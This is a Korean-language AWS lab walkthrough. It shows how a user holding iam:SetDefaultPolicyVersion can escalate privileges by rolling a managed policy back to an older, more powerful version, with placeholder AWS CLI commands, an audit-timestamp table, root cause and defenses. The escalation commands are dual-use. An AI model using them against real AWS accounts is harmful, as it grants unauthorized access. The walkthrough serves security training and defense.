

# 06. IAM PrivEsc by Rollback

- 난이도: Moderate
- 핵심: AWS Managed Policy Version을 과거의 강한 권한으로 되돌려 권한 상승합니다.

## Attack Path



## 1. 연결된 Policy와 Version 확인

```bash
PROFILE=<PROFILE>
USER_NAME=<USER_NAME>

aws iam list-attached-user-policies \
  --user-name "$USER_NAME" \
  --profile "$PROFILE"

aws iam list-policy-versions \
  --policy-arn <POLICY_ARN> \
  --profile "$PROFILE"
```

각 Version의 Document를 읽고 현재 Default와 비교합니다.

```bash
aws iam get-policy-version \
  --policy-arn <POLICY_ARN> \
  --version-id <VERSION_ID> \
  --profile "$PROFILE"
```

Lab의 이전 Version에는 현재 제거된 강한 Action이 남아 있습니다.

## 2. Default Version 변경

```bash
aws iam set-default-policy-version \
  --policy-arn <POLICY_ARN> \
  --version-id <PRIVILEGED_VERSION_ID> \
  --profile "$PROFILE"
```

새 Policy를 만들지 않고 Default Pointer만 변경해도 다음 Policy 평가부터 과거 Version이 적용됩니다.

```bash
aws sts get-caller-identity --profile "$PROFILE"
aws <SERVICE> <AUTHORIZED_LAB_ACTION> --profile "$PROFILE"
```

## Timestamp와 Audit

다음 시간은 의미가 다릅니다.

| 값 | 의미 |
| --- | --- |
| Version `CreateDate` | 해당 Version Document가 만들어진 시간 |
| Policy `UpdateDate` | Default Version 등 Policy Metadata가 변경된 시간 |
| CloudTrail `eventTime` | API 호출이 발생한 시간 |

과거 Version을 Default로 되돌려도 원래 `CreateDate`는 바뀌지 않을 수 있습니다. 따라서 Version 날짜만 보고 변경 여부를 판단하면 안 됩니다.

## Root Cause

User에게 Policy Document를 읽는 권한과 `iam:SetDefaultPolicyVersion`이 함께 있었고, 삭제되지 않은 이전 Version에 강한 권한이 남아 있었습니다.

## Defense

- `SetDefaultPolicyVersion`, `CreatePolicyVersion`, `DeletePolicyVersion`을 배포 Role로 제한합니다.
- 불필요한 과거 Version을 검토·제거합니다.
- CloudTrail의 Policy Version 변경 이벤트를 중앙 계정에 보존합니다.
- 강한 권한으로 변경되는 Diff를 CI와 승인 절차에서 차단합니다.
- SCP와 Permission Boundary로 개별 Policy Rollback의 최대 영향을 제한합니다.
